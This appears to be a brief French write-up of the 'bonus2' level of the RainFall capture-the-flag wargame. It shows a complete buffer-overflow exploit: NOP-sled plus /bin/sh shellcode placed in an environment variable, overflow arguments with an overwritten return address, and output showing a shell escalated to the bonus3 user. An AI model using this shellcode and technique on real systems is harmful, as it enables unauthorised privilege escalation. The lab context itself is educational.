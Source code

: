 # Bonus 2

Nous realisons un autre NOP Slide apres apres trouver l'offset et une adresse proche du segfault pour le nop slide que nous mettons sur l'offset
```bonus2@RainFall:~$ env -i LANG="nl" SHELLCODE=`python -c 'print "\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"'` ./bonus2 `python -c 'print "A" * 40'` `python -c 'print "A" * 23 + "\xbc\xff\xff\xbf"'`
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
$ id
\uid=2012(bonus2) gid=2012(bonus2) euid=2013(bonus3) egid=100(users) groups=2013(bonus3),100(users),2012(bonus2)
```

